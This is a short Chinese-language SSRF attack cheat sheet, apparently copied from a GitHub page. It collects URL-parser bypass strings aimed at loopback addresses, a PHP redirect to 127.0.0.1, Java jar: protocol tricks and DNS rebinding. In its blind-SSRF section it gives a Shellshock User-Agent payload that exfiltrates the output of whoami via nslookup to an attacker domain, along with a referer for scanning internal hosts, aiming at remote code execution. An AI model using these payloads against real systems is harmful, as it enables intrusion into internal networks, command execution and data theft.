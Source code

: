 **绕过弱解析器**

```
http://127.1.1.1:80\@127.2.2.2:80/
http://127.1.1.1:80\@@127.2.2.2:80/
http://127.1.1.1:80:\@@127.2.2.2:80/
http://127.1.1.1:80#\@127.2.2.2:80/
```

![WeakParser](C:\Users\86199\Pictures\WeakParser.jpg)

https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf

**重定向**

创建一个重定向页面，使该页面定向到需要的目标

```php
<?php
header('Location: http://127.0.0.1/');
exit;
?>
```

**使用 type=url 绕过**

将type=file改为type=url

上传图片url造成的ssrf

**DNS重绑定**

https://lock.cmpxchg8b.com/rebinder.html

**使用jar协议绕过（仅限java）**

```java
jar:scheme://domain/path!/ 
jar:http://127.0.0.1!/
jar:https://127.0.0.1!/
jar:ftp://127.0.0.1!/
```

## Blind SSRF

**what is bindssrf**

当可以诱导应用程序向提供的 URL 发出后端 HTTP 请求，但后端请求的响应未在应用程序的前端响应中返回时，就会出现盲目 SSRF 漏洞。

**How to check**

我们可以利用brup，当然也有很多其他外带工具，我们可以通过brup的Collaborator模块进行外带，更改请求包中的referer字段为子域，观察模块中是否能接收到请求，如果目标主机对此有请求，则可以说明这里存在一个bind ssrf

**How to use**

如果利用ssrf是一个比较复杂的问题，如果我们对目标所持有的信息很少，则需要我们进行不断地猜测，这里给出一个示范

```
User-Agent: (){foo;}; /usr/bin/nslookup $(whoami).domain
referer: http://192.168.0.$x$:$080$
尝试拿到一个rce
```
